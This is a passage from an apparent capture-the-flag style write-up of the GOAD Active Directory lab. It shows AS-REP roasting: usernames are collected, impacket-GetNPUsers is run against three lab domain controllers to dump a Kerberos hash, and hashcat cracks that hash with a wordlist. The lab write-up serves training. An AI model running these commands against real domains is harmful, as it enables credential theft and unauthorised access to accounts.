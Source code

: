 <div align="center" ><img width='100%' src='https://raw.githubusercontent.com/quincyntuli/Goad-Write-Up/main/img/11-users-list-5th-column.png'><br><ins>List of users</ins></div>

extracting the 5th column
```bash
awk '{print $5}' users.txt | sort | uniq | tee users2.tx
```

The impacket command can now be run, we need to cycle through each dc-ip and domain pair

```bash

impacket-GetNPUsers -dc-ip 192.168.56.10 'sevenkingdoms.local/' -no-pass -usersfile users2.txt

impacket-GetNPUsers -dc-ip 192.168.56.11 'north.sevenkingdoms.local/' -no-pass -usersfile users2.txt

impacket-GetNPUsers -dc-ip 192.168.56.12 'essos.local/' -no-pass -usersfile users2.txt

```


 It is observed that the second command has dumped the hash for us. 

<div align="center" ><img width='100%' src='https://raw.githubusercontent.com/quincyntuli/Goad-Write-Up/main/img/12-reproast-hashes'><br><ins>List of users</ins></div>


#### Brandon Stark






```ruby
hashcat.exe -m 18200 hashes\out.txt wordlist\rockyou.txt
```


